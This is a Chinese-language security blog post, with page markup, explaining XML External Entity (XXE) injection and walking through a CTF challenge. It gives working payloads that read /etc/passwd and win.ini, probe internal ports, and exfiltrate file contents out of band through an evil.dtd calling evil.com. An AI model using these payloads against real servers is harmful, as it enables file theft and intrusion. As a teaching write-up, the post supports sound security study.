





<!DOCTYPE html>
<html>

<head><meta name="generator" content="Hexo 3.9.0">
    <meta charset="utf-8">
    
    <title>XXE漏洞学习 | Hu5k7&#39;s Blog</title>
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">

    

    

    

    <link rel="stylesheet" href="/dist/build.css?v=1.5.0">

    <script>
        window.aomori = {
            
        }
    </script>

</head></html>

<body>

  <div class="container">
    <header class="header">
        <div class="header-type">
            
            <div class="avatar avatar-sm">
                
            </div>
            
            <a href="/">Hu5k7&#39;s Blog</a>
            
        </div>
        <div class="header-menu">
            <div class="header-menu-inner">
                
                <a href="/">Home</a>
                
                <a href="/archives">Archives</a>
                
                <a href="/friends">Friends</a>
                
            </div>
            <div class="header-menu-social">
                
            </div>
        </div>

        <div class="header-menu-mobile">
            <div class="header-menu-mobile-inner" id="mobile-menu-open">
                <i class="icon icon-menu"></i>
            </div>
        </div>
    </header>

    <div class="header-menu-mobile-menu">
        <div class="header-menu-mobile-menu-bg"></div>
        <div class="header-menu-mobile-menu-wrap">
            <div class="header-menu-mobile-menu-inner">
                <div class="header-menu-mobile-menu-close" id="mobile-menu-close">
                    <i class="icon icon-cross"></i>
                </div>
                <div class="header-menu-mobile-menu-list">
                    
                    <a href="/">Home</a>
                    
                    <a href="/archives">Archives</a>
                    
                    <a href="/friends">Friends</a>
                    
                </div>
            </div>
        </div>
    </div>

</div>

  <div class="container">
    <div class="main">
      <section class="inner">
        <section class="inner-main">
          <div class="post">
    <article id="post-ckcfwndm300269gmog3yz68fx" class="article article-type-post" itemscope
    itemprop="blogPost">

    <div class="article-inner">

        
<div class="article-gallery">
  <div class="article-gallery-photos">
    
      <a class="article-gallery-img fancybox" href="/2019/12/03/xxe/" rel="gallery_ckcfwndm300269gmog3yz68fx">
        
      </a>
    
  </div>
</div>


        
        <header class="article-header">
            
  
    <h1 class="article-title" itemprop="name">
      XXE漏洞学习
    </h1>
  

        </header>
        

        <div class="article-more-info article-more-info-post hairline">

            <div class="article-date">
  <time datetime="2019-12-03T09:23:08.000Z" itemprop="datePublished">2019-12-03</time>
</div>

            

            
            <div class="article-tag">
                <ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/Note/">Note</a></li></ul>
            </div>
            

            
        </div>

        <div class="article-entry post-inner-html hairline" itemprop="articleBody">
            <h1 id="0x00-前言">0x00 前言</h1>
<p>最近看到挺多XXE漏洞的，于是打算来浅入学习下。</p>
<a id="more"></a>
<h1 id="0x01漏洞产生">0x01漏洞产生</h1>
<p>XXE漏洞全称XML External Entity Injection 即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，<strong>没有禁止外部实体的加载</strong>，导致可加载恶意外部文件和代码，造成<strong>任意文件读取</strong>、<strong>命令执行</strong>、<strong>内网端口扫描</strong>、<strong>攻击内网网站</strong>、<strong>发起Dos攻击</strong>等危害。</p>
<p>XXE漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。</p>
<h2 id="0x01-1-XML基础">0x01.1 XML基础</h2>
<p>要了解XXE漏洞，先要搞懂一定的基础知识，了解XML文档的基础组成。</p>
<p>XML 指可扩展标记语言（Extensible Markup Language）</p>
<pre><code>XML 被设计用来传输和存储数据。
HTML 被设计用来显示数据
</code></pre>
<p>XML把数据从HTML分离，XML是独立于软件和硬件的信息传输工具。</p>
<p>XML语言没有预定义的标签，允许作者定义自己的标签和自己的文档结构</p>
<p>XML的语法规则：</p>
<ul>
<li>
<p>XML文档必须有一个根元素</p>
</li>
<li>
<p>XML元素都必须有一个关闭标签</p>
</li>
<li>
<p>XML标签对大小敏感</p>
</li>
<li>
<p>XML元素必须被正确的嵌套</p>
</li>
<li>
<p>XML属性值必须加引导</p>
<pre><code class="language-xml">&lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt; &lt;!--XML 声明--&gt;
&lt;girl age=&quot;18&quot;&gt;　　&lt;!--自定的根元素girl;age属性需要加引导--&gt;
&lt;hair&gt;长头发&lt;/hair&gt;　　&lt;!--自定义的4个子元素，即girl对象的属性--&gt;
&lt;eye&gt;大眼睛&lt;/eye&gt;
&lt;face&gt;可爱的脸庞&lt;/face&gt;
&lt;summary&gt;可爱美丽的女孩&lt;/summary&gt;
&lt;/girl&gt;　　&lt;!--根元素的闭合--&gt;
</code></pre>
</li>
</ul>
<h3 id="实体引用">实体引用</h3>
<p>在XML中，一些字符拥有特殊的意义。</p>
<p>如果把字符&quot;&lt;&quot;放在XML元素中，会发生错误，这是因为解释器会把它作为新元素的开始。</p>
<p><strong>例子:</strong></p>
<pre><code class="language-xml">&lt;message&gt;if salary &lt; 1000 then&lt;/message&gt;
</code></pre>
<p>为了避免这个错误，请用<strong>实体引用</strong>来代替 “&lt;” 字符：</p>
<pre><code class="language-xml">&lt;message&gt;if salary &amp;lt; 1000 then&lt;/message&gt;
</code></pre>
<p>在 XML 中，有 5 个预定义的实体引用：</p>
<table>
<thead>
<tr>
<th>&amp;lt</th>
<th>&lt;</th>
<th>小于号</th>
</tr>
</thead>
<tbody>
<tr>
<td>&amp;gt</td>
<td>&gt;</td>
<td>大于号</td>
</tr>
<tr>
<td>&amp;amp</td>
<td>&amp;</td>
<td>和号</td>
</tr>
<tr>
<td>&amp;apos</td>
<td>’</td>
<td>单引号</td>
</tr>
<tr>
<td>&amp;quot</td>
<td>&quot;</td>
<td>引号</td>
</tr>
</tbody>
</table>
<p>DTD（文档类型定义）的作用是定义XML文档的合法构建模块</p>
<p>DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。</p>
<pre><code class="language-xml">&lt;!--XML声明--&gt;
&lt;?xml version=&quot;1.0&quot;?&gt; 
&lt;!--文档类型定义--&gt;
&lt;!DOCTYPE note [  　　&lt;!--定义此文档是 note 类型的文档--&gt;
&lt;!ELEMENT note (to,from,heading,body)&gt;  &lt;!--定义note元素有四个元素--&gt;
&lt;!ELEMENT to (#PCDATA)&gt;     &lt;!--定义to元素为”#PCDATA”类型--&gt;
&lt;!ELEMENT from (#PCDATA)&gt;   &lt;!--定义from元素为”#PCDATA”类型--&gt;
&lt;!ELEMENT head (#PCDATA)&gt;   &lt;!--定义head元素为”#PCDATA”类型--&gt;
&lt;!ELEMENT body (#PCDATA)&gt;   &lt;!--定义body元素为”#PCDATA”类型--&gt;
]]]&gt;
&lt;!--文档元素--&gt;
&lt;note&gt;
&lt;to&gt;Dave&lt;/to&gt;
&lt;from&gt;Tom&lt;/from&gt;
&lt;head&gt;Reminder&lt;/head&gt;
&lt;body&gt;You are a good man&lt;/body&gt;
&lt;/note&gt;
</code></pre>
<p>上述XML代码基本分为三个部分：</p>
<ul>
<li>第一部分是XML的声明；</li>
<li>第二部分是XML的DTD文档类型定义</li>
<li>第三部分是XML语句</li>
</ul>
<p>而外部实体攻击主要利用DTD的外部实体来进行注入的。</p>
<p>DTD有两种构建方式，分别为<strong>内部DTD声明</strong>和<strong>外部DTD声明</strong></p>
<blockquote>
<p>​	tips: DTD = Document Type Definition 简称</p>
</blockquote>
<p><strong>内部DTD声明：</strong></p>
<pre><code class="language-xml">&lt;!DOCTYPE 根元素 [元素声明]&gt;
</code></pre>
<p>实例：如上述代码</p>
<p><strong>外部DTD声明：</strong></p>
<pre><code class="language-xml">&lt;!DOCTYPE 根元素 SYSTEM &quot;文件名&quot;&gt;
</code></pre>
<p>实例：</p>
<pre><code class="language-xml">&lt;?xml version=&quot;1.0&quot;?&gt;
&lt;!DOCTYPE root-element SYSTEM &quot;test.dtd&quot;&gt;
&lt;note&gt;
&lt;to&gt;Y&lt;/to&gt;
&lt;from&gt;K&lt;/from&gt;
&lt;head&gt;J&lt;/head&gt;
&lt;body&gt;ESHLkangi&lt;/body&gt;
&lt;/note&gt;
</code></pre>
<h1 id="0x02-XML简单用法">0x02 XML简单用法</h1>
<pre><code class="language-XML">&lt;!ENTITY 实体名称 &quot;实体的值&quot;&gt;
</code></pre>
<p>外部实体:</p>
<pre><code class="language-XML">&lt;!ENTITY 实体名称 SYSTEM &quot;URI&quot;&gt;
</code></pre>
<p>参数实体:</p>
<pre><code class="language-XML">&lt;!ENTITY % 实体名称 &quot;实体的值&quot;&gt;
</code></pre>
<p>或者</p>
<pre><code class="language-XML">&lt;!ENTITY % 实体名称 SYSTEM &quot;URI&quot;&gt;
</code></pre>
<p>实列演示:  除参数实体外实体+内部实体</p>
<pre><code class="language-XML">&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
&lt;!DOCTYPE a[
	&lt;!ENTITY name &quot;nMask&quot;&gt;]&gt;
&lt;foo&gt;
    &lt;value&gt;&amp;name;&lt;/value&gt;
&lt;/foo&gt;
</code></pre>
<p>实列演示: 参数实体+外部实体</p>
<pre><code class="language-XML">&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
&lt;!DOCTYPE a[
	&lt;!ENTITY % name SYSTEM &quot;file:///etc/passwd&quot;&gt;
	%name;
]&gt;
</code></pre>
<p>注意：%name（参数实体）是在DTD中被引用的，而&amp;name（其余实体）是在xml文档中被引用的。</p>
<p>由于xxe漏洞主要是利用了DTD引用外部实体导致的漏洞，那么重点看下能引用哪些类型的外部实体。</p>
<p>外部实体 外部实体即在DTD中使用</p>
<pre><code class="language-xml">&lt;!ENTITY 实体名称 SYSTEM &quot;URI&quot;&gt;
</code></pre>
<p>实例演示：</p>
<pre><code class="language-XML">&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
&lt;!DOCTYPE a[ //定义一个外部名称
	&lt;!ENTITY content SYSTEM &quot;file:///etc/passwd&quot;&gt;]&gt; //SYSTEM &quot;file:///xxxx&quot; 用于读取文件
&lt;foo&gt;
	&lt;value&gt;&amp;content;&lt;/value&gt;
&lt;/foo&gt;
</code></pre>
<p>得带Content-Type: application/xml头，</p>
<p>如果请求头类似于：Content-Type: application/json，</p>
<p>那么可以改为Content-Type: application/xml试试有没有xml漏洞</p>
<h1 id="0x03-XXE漏洞实战">0x03 XXE漏洞实战</h1>
<p>题目地址：<a href="http://web.jarvisoj.com:9882" target="_blank" rel="noopener">web.jarvisoj.com:9882</a></p>
<p></p>
<p>我们抓包看一下</p>
<p></p>
<p>现在我们尝试把 <strong>Content-Type: application/json</strong> 改成 <strong>application/xml</strong></p>
<p>发送以下内容探测是否存在XXE</p>
<pre><code class="language-XML">&lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;
&lt;!DOCTYPE TEST [
 &lt;!ENTITY xxe &quot;XXE TEST&quot;&gt; //XXE Test是输出的内容 xxe可以为理解为一个变量
 ]&gt;
&lt;foo&gt; //乱取个名就好
  &amp;xxe; //理解为引用变量地址输出
&lt;/foo&gt; 
</code></pre>
<p></p>
<p>读取文件测试</p>
<p></p>
<p>读取flag测试</p>
<p></p>
<h2 id="0x03-1-下面列出其他的用法">0x03.1 下面列出其他的用法</h2>
<p>XML文档是用PHP进行解析的，那么还可以使用php:*//filter协议来进行读取。</p>
<pre><code class="language-XML">&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt; 
&lt;!DOCTYPE root [ &lt;!ENTITY content SYSTEM &quot;php://filter/resource=c:/windows/win.ini&quot;&gt; ]&gt; 
&lt;root&gt;&lt;foo&gt;&amp;content;&lt;/foo&gt;&lt;/root&gt; 
</code></pre>
<p>端口扫描 加载外部DTD时有两种加载方式，一种为私有private，第二种为公共public。 私有类型DTD加载：</p>
<pre><code class="language-XML">&lt;!ENTITY private_dtd SYSTEM &quot;DTD_location&quot;&gt;
</code></pre>
<p>公共类型DTD加载：</p>
<pre><code class="language-XML">&lt;!ENTITY public_dtd PUBLIC &quot;DTD_name&quot; &quot;DTD_location&quot;&gt;
</code></pre>
<p>在公共类型DTD加载的时候，首先会使用DTD_name来检索，如果无法找到，则通过DTD_location来寻找此公共DTD。利用DTD_location，在一定的环境下可以用来做内网探测。</p>
<pre><code class="language-XML">&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
&lt;!DOCTYPE root [
    &lt;!ENTITY portscan SYSTEM &quot;http://localhost:3389&quot;&gt;
]&gt;
&lt;root&gt;&lt;foo&gt;&amp;portscan;&lt;/foo&gt;&lt;/root&gt;
</code></pre>
<p>blind xxe漏洞: 对于传统的XXE来说，要求攻击者只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，如果没有回显则可以使用Blind XXE漏洞来构建一条带外信道提取数据。</p>
<p>利用DTD进行数据回显 有时读取文件时没有回显，这时可以利用DTD参数实体的特性将文件内容拼接到url中，达到读取文件的效果。</p>
<pre><code class="language-XML">&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
 &lt;!DOCTYPE root[    
 &lt;!ENTITY % file SYSTEM &quot;php://fileter/convert.base64-encode/resource=c:/windows/win.ini&quot;&gt;     
 &lt;!ENTITY % dtd SYSTEM &quot;http://192.168.1.100:8000/evil.dtd&quot;&gt;    
 %dtd;     
 %send;]&gt;
 &lt;root&gt;&lt;/root&gt;
evil.dtd

 &lt;!ENTITY % payload &quot;&lt;!ENTITY &amp;#x25; send SYSTEM 'http://evil.com/?content=%file;'&gt;&quot;&gt;
%payload;
</code></pre>
<p>在evil.dtd中将%file实体的内容拼接到url后，然后利用burp等工具，查看url请求就能获得我们需要的内容</p>
<h1 id="0x04-参考链接">0x04 参考链接</h1>
<blockquote>
<p>我个人认为讲的最好的链接：</p>
<p><a href="http://xz.aliyun.com/t/6887" target="_blank" rel="noopener">http://xz.aliyun.com/t/6887</a></p>
<hr>
<p><a href="https://www.freebuf.com/articles/web/177979.html" target="_blank" rel="noopener">https://www.freebuf.com/articles/web/177979.html</a></p>
<p><a href="https://www.cnblogs.com/vincebye/p/7199290.html" target="_blank" rel="noopener">https://www.cnblogs.com/vincebye/p/7199290.html</a></p>
<p><a href="https://www.jianshu.com/p/ec2888780308" target="_blank" rel="noopener">https://www.jianshu.com/p/ec2888780308</a></p>
<p><a href="https://www.cnblogs.com/ESHLkangi/p/9245404.html" target="_blank" rel="noopener">https://www.cnblogs.com/ESHLkangi/p/9245404.html</a></p>
</blockquote>
<p><strong>转载请标明出处</strong></p>

        </div>

    </div>

    

    

    

    
<div class="article-copyright hairline">
  <p>
    本作品采用 <a rel="license" href="http://creativecommons.org/licenses/by-nc-nd/4.0/">知识共享署名-非商业性使用-禁止演绎 4.0 国际许可协议</a> 进行许可。
  </p>
</div>


    

    
<nav class="article-nav">
  
    <a href="/2019/12/15/vulnhub靶机-sunrise/" id="article-nav-newer" class="article-nav-link-wrap">
      <div class="article-nav-caption">下一篇</div>
      <div class="article-nav-title">
        
          vulnhub_sunrise
        
      </div>
    </a>
  
  
    <a href="/2019/11/06/BugkuCTF逆向/" id="article-nav-older" class="article-nav-link-wrap">
      <div class="article-nav-caption">上一篇</div>
      <div class="article-nav-title">BugkuCTF逆向</div>
    </a>
  
</nav>


    <section class="share">
        <div class="share-title">分享</div>
        <a class="share-item" target="_blank"
            href="https://twitter.com/share?text=XXE漏洞学习 - Hu5k7's Blog&url=https://hu5k7.github.io/2019/12/03/xxe/">
            <box-icon type='logo' name='twitter'></box-icon>
        </a>
        <a class="share-item" target="_blank"
            href="https://www.facebook.com/sharer.php?title=XXE漏洞学习 - Hu5k7's Blog&u=https://hu5k7.github.io/2019/12/03/xxe/">
            <box-icon name='facebook-square' type='logo' ></box-icon>
        </a>
        <!-- <a class="share-item" target="_blank"
            href="https://service.weibo.com/share/share.php?title=XXE漏洞学习 - Hu5k7's Blog&url=https://hu5k7.github.io/2019/12/03/xxe/&pic=">
            <div class="n-icon n-icon-weibo"></div>
        </a> -->
    </section>

</article>


</div>
        </section>
      </section>
      <aside class="sidebar">
        <div class="widget">
          

  
  <div class="widget-wrap widget-recent-posts">
    <div class="widget-title"><span>Recent Posts</span></div>
    <div class="widget-inner">
      <ul>
        
          <li>
            <a href="/2020/07/10/Mark-OnceBuild-CrossC2Object/">Mark_OnceBuild_CrossC2Object</a>
          </li>
        
          <li>
            <a href="/2020/05/14/iseacms代码审计入门级/">iseacms代码审计入门级</a>
          </li>
        
          <li>
            <a href="/2020/04/10/takeshell-01/">Mark-once-WebShell_01</a>
          </li>
        
          <li>
            <a href="/2020/02/24/MSSQL盲注/">MSSQL_Blind_Injection</a>
          </li>
        
          <li>
            <a href="/2020/02/20/Oracle注入/">Oracle Injection</a>
          </li>
        
      </ul>
    </div>
  </div>


  
  <div class="widget-wrap widget-cate">
    <div class="widget-title"><span>Categories</span></div>
    <div class="widget-inner">
      <ul class="category-list"><li class="category-list-item"><a class="category-list-link" href="/categories/Bash/">Bash</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/">CTF</a><ul class="category-list-child"><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/CTF-Pwn-Note/">CTF-Pwn-Note</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/CTF-Reverse-Note/">CTF-Reverse-Note</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/CTF/CTF-Web-Note/">CTF-Web-Note</a></li></ul></li><li class="category-list-item"><a class="category-list-link" href="/categories/Note/">Note</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/Python/">Python</a></li><li class="category-list-item"><a class="category-list-link" href="/categories/vulnhub/">vulnhub</a></li></ul>
    </div>
  </div>


  
  <div class="widget-wrap widget-archive">
    <div class="widget-title"><span>Archive</span></div>
    <div class="widget-inner">
      <ul class="archive-list"><li class="archive-list-item"><a class="archive-list-link" href="/archives/2020/07/">2020</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2019/12/">2019</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2018/12/">2018</a></li></ul>
    </div>
  </div>


        </div>
        <div id="backtop"><i class="icon icon-arrow-up"></i></div>
      </aside>
    </div>
  </div>

  <footer class="footer">
    <div class="footer-inner">
        <div class="footer-info">
            <span>&copy; 2013 - 2020 Hu5k7&#39;s Blog</span>
        </div>
        <div class="footer-powered">
            <a href="https://github.com/lh1me/hexo-theme-aomori" target="_blank">Aomori</a> Theme · Powered By Hexo
        </div>
    </div>
</footer>


<script src="/dist/build.js?1.5.0"></script>
<script src="/dist/custom.js?1.5.0"></script>


<!-- 百度链接提交 -->
<script>
    (function () {
        var bp = document.createElement('script');
        var curProtocol = window.location.protocol.split(':')[0];
        if (curProtocol === 'https') {
            bp.src = 'https://zz.bdstatic.com/linksubmit/push.js';
        }
        else {
            bp.src = 'http://push.zhanzhang.baidu.com/push.js';
        }
        var s = document.getElementsByTagName("script")[0];
        s.parentNode.insertBefore(bp, s);
    })();
</script>


<script src="/live2dw/lib/L2Dwidget.min.js?094cbace49a39548bed64abff5988b05"></script><script>L2Dwidget.init({"pluginModelPath":"assets/","model":{"jsonPath":"/live2dw/assets/miku.model.json"},"display":{"position":"left","width":200,"height":350},"mobile":{"show":false},"log":false,"pluginJsPath":"lib/","pluginRootPath":"live2dw/","tagMode":false});</script></body>
</html>